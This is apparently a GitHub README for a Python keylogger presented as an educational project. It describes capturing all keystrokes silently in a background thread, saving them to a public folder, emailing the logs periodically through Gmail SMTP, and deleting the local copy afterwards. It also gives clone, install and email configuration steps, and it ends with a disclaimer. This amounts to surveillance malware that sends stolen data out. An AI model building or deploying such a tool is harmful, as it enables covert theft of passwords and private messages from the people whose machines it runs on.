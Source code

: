 #🖥️ Keylogger – Educational Python Project






A simple yet powerful keylogger written in Python 🐍 for educational purposes. This tool demonstrates concepts in cybersecurity and Python programming by capturing keystrokes, logging them to a file, and periodically emailing the logs to a specified address. The script runs silently in the background using threading.

✨ Features

⌨️ Keystroke Logging – Captures all keyboard events with timestamps 📅.

🧵 Background Operation – Uses Python's threading for seamless background execution.

📧 Automated Email Reports – Sends captured logs securely via Gmail’s SMTP.

🗑️ Log Management – Deletes logs after sending to keep things clean and secure.

⚙️ How It Works

Listener – Uses keyboard library to capture key presses.

Logging – Saves keystrokes with timestamps in C:\Users\Public\logfile.txt.

Scheduler – Runs in a background thread ⏱️.

Emailing – Sends log files as email attachments at defined intervals.

Cleanup – Deletes log file after successful email transmission.

Persistence – Keeps running silently until manually stopped.

#🚀 Getting Started

📋 Prerequisites

Python 3.x

pip (Python package manager)

🛠️ Installation
# Clone the repository
git clone https://github.com/lakshya-004/Keylogger.git  

# Navigate into the project folder
cd Keylogger  

# Install dependencies
pip install keyboard

📝 Configuration

Before running the script, update your email settings inside Main.py:

send_email_with_attachment(
    sender_email="your_email@gmail.com",
    app_password="your_gmail_app_password",
    recipient_email="recipient_email@example.com",
    subject="Keylogger Log File",
    body="Attached is the keylogger log file.",
    file_path=log_file_path
)


🔹 Use a Google App Password instead of your Gmail password (required for 2FA accounts).
🔹 Change time.sleep(60) inside schedule_email() to adjust the email interval (in seconds).

▶️ Running the Script
python Main.py


The script runs in the background silently. To stop it:

Press Ctrl + C in the terminal, or

End the process via Task Manager.

⚠️ Disclaimer

This project is for educational purposes only 🏫.
Misuse of this tool on systems without explicit permission is illegal and unethical.
The author is not responsible for any misuse or consequences.
Use responsibly and within the boundaries of the law ⚖️.
